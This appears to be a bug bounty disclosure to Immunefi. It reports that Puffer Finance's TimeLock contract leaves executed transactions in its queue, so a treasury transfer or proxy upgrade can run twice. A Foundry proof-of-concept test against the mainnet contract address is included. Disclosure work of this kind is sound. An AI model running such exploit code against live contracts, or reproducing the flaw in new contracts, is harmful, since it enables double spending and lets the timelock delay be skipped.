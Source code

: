 # 28971 - \[SC - Low] Double spending or double execution of transact...

Submitted on Mar 3rd 2024 at 20:33:14 UTC by @codesentry for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28971

Report type: Smart Contract

Report severity: Low

Target: https://etherscan.io/address/0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA#code

Impacts:

* Protocol insolvency
* Permanent freezing of unclaimed yield
* Temporary freezing of funds for at least 1 hour

## Description

## Brief/Intro

COMMUNITY\_MULTISIG wallet can execute the transaction queued by OPERATIONS\_MULTISIG . Transaction is not removed from queue when COMMUNITY\_MULTISIG execute it. In this case OPERATIONS\_MULTISIG can execute same transaction again. This is a sever bug and can cause double spending, double execution of transaction. Even OPERATIONS\_MULTISIG can execute tx without waiting for delay period to pass. All scenario explained in ## Impact Details section.

## Vulnerability Details

This bug is in `executeTransaction()` method of TimeLock contract. OPERATIONS\_MULTISIG queue a transaction and COMMUNITY\_MULTISIG execute it by calling below method

`executeTransaction(target, callData,operationId)`

Whenever COMMUNITY\_MULTISIG execute it, it does not remove it from queue. This tx exist in queue even it has been executed by COMMUNITY\_MULTISIG hence OPERATIONS\_MULTISIG can execute it again.

Steps

1. OPERATIONS\_MULTISIG calls `timelock.queueTransaction(target, callData, 1);`
2. Time delay passed but actually transaction executed by COMMUNITY\_MULTISIG. COMMUNITY\_MULTISIG calls timelock.executeTransaction(target, callData, 1);
3. OPERATIONS\_MULTISIG is able to call same tx again even thought it has already been executed by COMMUNITY\_MULTISIG.\
   OPERATIONS\_MULTISIG calls below method successfully. timelock.executeTransaction(target, callData, 1);

This result in calling timelock.executeTransaction(target, callData, 1) two times.

## Impact Details

Below are some scenario that explains the impact. There are can be multiple scenarios exists but I writing two examples below

Scenario1:

1. OPERATIONS\_MULTISIG queue a transaction to upgrade implementation contract of PufferDepositor to implV2. This upgrade is being done to fix a bug.
2. After tx was queued, community found that bug is sever hence upgrade the proxy contract immediately by calling timelock.executeTransaction(target, callData, 1) by COMMUNITY\_MULTISIG. Now proxy's implementation contract is implV2.
3. After few days community found that implV2 also has another sever bug hence it upgrade to implV3 by executing timelock.executeTransaction(target, callData, 2) immediately.
4. Previous queued transaction was not removed from queue. OPERATIONS\_MULTISIG calls timelock.executeTransaction(target, callData, 1) and upgrade proxy to old version which has some bug.\
   Implication of this scenario is that proxy is upgraded to old version by OPERATIONS\_MULTISIG without waiting for delay period.

Scenario 2: Timelock contract is owner of some treasury contract. Treasury contract has some ERC20 balance.

1. OPERATIONS\_MULTISIG queue a transaction to transfer 10 token to Alice for operationId =1 .
2. COMMUNITY\_MULTISIG execute this transaction and transfers 10 token to Alice. 3) OPERATIONS\_MULTISIG execute same tx and transfer 10 more token because tx is not removed from queue.\
   Net result is loss of asset or double spending of treasury asset.

Upgrade from implV3 to implV2 is done with no waiting or delay period. This can have serious implication for users as proxy upgraded to older version that too without wait.

Overall timelock contract has sever bug in executeTransaction(). Ideally this should remove the queued tx if already executed.

## References

Add any relevant links to documentation or code

## Proof of Concept

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import {Test} from "forge-std/Test.sol";
import {IERC20} from "openzeppelin/token/ERC20/IERC20.sol";
import {Ownable} from "openzeppelin/access/Ownable.sol";

interface ITimeLock {
    function executeTransaction(
        address target,
        bytes calldata callData,
        uint256 operationId
    ) external returns (bool success, bytes memory returnData);

    function queueTransaction(
        address target,
        bytes memory callData,
        uint256 operationId
    ) external returns (bytes32);

    function delay() external view returns (uint256);

    function COMMUNITY_MULTISIG() external view returns (address);

    function OPERATIONS_MULTISIG() external view returns (address);
}

contract Treasury is Ownable {
    constructor(address _initialOwner) Ownable(_initialOwner) {}

    function transferAsset(
        IERC20 _token,
        address _recipient,
        uint256 _amount
    ) external returns (bool) {
        return _token.transfer(_recipient, _amount);
    }
}

contract TimeLockBugPOC is Test {
    // This is the keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1.
    bytes32 constant IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    ITimeLock public timelock;

    Treasury public treasury;

    address alice = makeAddr("alice");

    IERC20 CVX = IERC20(0x4e3FBD56CD56c3e72c1403e103b45Db9da5B9D2B);

    address COMMUNITY_MULTISIG;
    address OPERATIONS_MULTISIG;

    function setUp() public virtual {
        vm.createSelectFork(vm.envString("NODE_URL"));
        timelock = ITimeLock(0x3C28B7c7Ba1A1f55c9Ce66b263B33B204f2126eA);

        treasury = new Treasury(address(timelock));

        deal(address(CVX), address(treasury), 200e18);

        COMMUNITY_MULTISIG = timelock.COMMUNITY_MULTISIG();
        OPERATIONS_MULTISIG = timelock.OPERATIONS_MULTISIG();

        vm.label(COMMUNITY_MULTISIG, "COMMUNITY_MULTISIG");
        vm.label(OPERATIONS_MULTISIG, "OPERATIONS_MULTISIG");
    }

    function test_timelockBug() public {
        // step1: OPERATIONS_MULTISIG queue transaction to transfer 10 cvx
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        uint256 amountToTransfer = 10e18;
        bytes memory callData = abi.encodeCall(
            treasury.transferAsset,
            (CVX, alice, amountToTransfer)
        );
        timelock.queueTransaction(address(treasury), callData, 1);

        uint256 lockedUntil = block.timestamp + timelock.delay();
        vm.warp(lockedUntil + 1);
        vm.stopPrank();

        // step2: Community multisig execute the queued transaction
        vm.startPrank(timelock.COMMUNITY_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);
        assertEq(CVX.balanceOf(alice), amountToTransfer);

        // step3: Operation multisig execute queued transaction once again and Alice received 10 cvx 2 times
        vm.startPrank(timelock.OPERATIONS_MULTISIG());
        timelock.executeTransaction(address(treasury), callData, 1);

        assertEq(CVX.balanceOf(alice), 2 * amountToTransfer);
        vm.stopPrank();
    }
}

```

